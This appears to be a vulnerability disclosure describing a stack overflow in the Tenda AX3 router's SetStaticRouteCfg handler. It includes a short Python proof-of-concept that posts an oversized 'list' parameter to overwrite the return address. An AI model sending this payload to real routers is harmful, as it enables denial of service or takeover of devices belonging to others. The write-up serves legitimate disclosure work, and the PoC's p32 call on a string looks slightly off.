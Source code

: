 # Stack Overflow Vulnerability in Tenda Router AX3 (V16.03.12.11)

## Overview

A stack overflow vulnerability exists in the latest version V16.03.12.11 of the Tenda Router AX3. This vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf` call, where improper input parameters from the `/goform/SetStaticRouteCfg` page lead to data being concatenated onto the stack without any checks.

## Vulnerability Details

In the latest version `V16.03.12.11` of the Tenda Router AX3, a vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf`. 

When handling requests from the `/goform/SetStaticRouteCfg` page, the construction of the parameter list can influence the `save_staticroute_data` function, causing input to be concatenated onto the stack by the `sscanf` function without any checks, leading to a stack overflow. 

![image-20250203211326509](./assets/image-20250203211326509.png)

![image-20250203211413402](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203211413402.png)

With appropriate parameter construction, this can result in denial of service (DoS) and remote code execution (RCE).

## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetStaticRouteCfg"

retaddr="bbbb"
payload = "1,2,3,"+"a"*0x674+p32(retaddr)
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo



![image-20250203214025940](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203214025940.png)



![image-20250203232553401](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203232553401.png)![image-20250203232906046](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203232906046.png)

![image-20250203232818981](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203232818981.png)
